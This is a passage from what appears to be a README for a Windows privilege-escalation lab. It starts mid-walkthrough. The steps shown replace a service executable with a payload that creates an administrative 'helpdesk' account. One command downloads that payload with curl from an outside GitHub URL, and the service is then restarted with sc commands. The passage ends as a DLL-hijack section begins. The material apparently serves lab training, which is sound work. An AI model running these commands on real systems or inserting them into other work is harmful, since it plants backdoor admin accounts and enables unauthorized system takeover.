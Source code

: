    - This will create a user `helpdesk` with administrative rights.

4. **Convert Batch File to Executable:**

   - Use a tool like [bat2exe](https://bat2exe.net/) to convert the batch file into an executable file (`filepermservice.exe`).

5. **Optional: Download the Executable Payload:**

   - If you already have the executable payload hosted somewhere, you can download it using the following `curl` command:

     ```bash
     curl -o "C:\Program Files\File Permissions Service\filepermservice.exe" https://raw.githubusercontent.com/Ardemium/InsideJob/refs/heads/main/payloads/filepermservice.exe
     ```

     > **Note:** Modify the destination path (`"C:\Program Files\File Permissions Service\filepermservice.exe"`) to your desired location and file name, if necessary.

6. **Replace Executable:**

   ```bash
   copy /Y Z:\filepermservice.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
   ```

7. **Restart Service:**

   ```bash
   sc stop filepermsvc
   sc start filepermsvc
   ```

---

### DLL Hijack Service

![DLL Hijack Service Properties](.assets/dll_hijack_service.png)

A vulnerable service attempts to load a missing DLL, which allows us to escalate privileges by injecting a malicious DLL.

